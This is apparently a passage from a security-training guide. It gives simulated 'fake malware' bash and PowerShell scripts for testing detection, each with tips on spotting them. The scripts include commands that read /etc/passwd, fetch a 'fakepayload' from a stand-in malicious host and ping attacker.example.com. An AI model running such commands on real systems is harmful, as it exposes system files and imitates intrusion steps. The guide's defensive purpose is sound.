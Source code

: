 This example creates a fake script that:

* Creates a suspicious file
* Pretends to contact a server
* Leaves obvious logs

```bash
#!/bin/bash

# FAKE MALWARE FOR TRAINING - NO HARM DONE
mkdir -p /tmp/fakeattack
cd /tmp/fakeattack
echo "Simulated exfiltration..." > data.txt
curl http://example.com/fakeendpoint >> /tmp/fakeattack/log.txt
cat /etc/passwd >> /tmp/fakeattack/log.txt 2>/dev/null
```

**Windows (PowerShell version):**

```powershell
# Harmless simulation
New-Item -ItemType Directory -Path C:\temp\fakeattack
Set-Location C:\temp\fakeattack
"Simulated malware behaviour" | Out-File payload.txt
Invoke-WebRequest -Uri http://example.com/fakeendpoint -OutFile netlog.txt
Get-Process | Out-File -Append netlog.txt
```

### How to detect it:

* Use endpoint security or SIEM to alert on outbound HTTP requests or access to sensitive files.
* Look for unexpected new directories like `/tmp/fakeattack` or `C:\temp\fakeattack`.
* Review process creation logs and file system write activity.

## Suspicious network connections

**Linux (bash):**

```bash
curl -s http://malicious.example.com/fakepayload -o /tmp/fetch.txt
ping -c 3 attacker.example.com >> /tmp/network.txt
```

**Windows (PowerShell):**

```powershell
Invoke-WebRequest -Uri http://malicious.example.com/fakepayload -OutFile C:\temp\fetch.txt
Test-NetConnection -ComputerName attacker.example.com -InformationLevel Detailed
```

**Detection tips:**

* Use network monitoring tools to catch suspicious domains.
* Watch for curl, Invoke-WebRequest, or Test-NetConnection in logs.
* Alert on uncommon DNS lookups or HTTP requests from endpoints.

## Unusual file access or copying
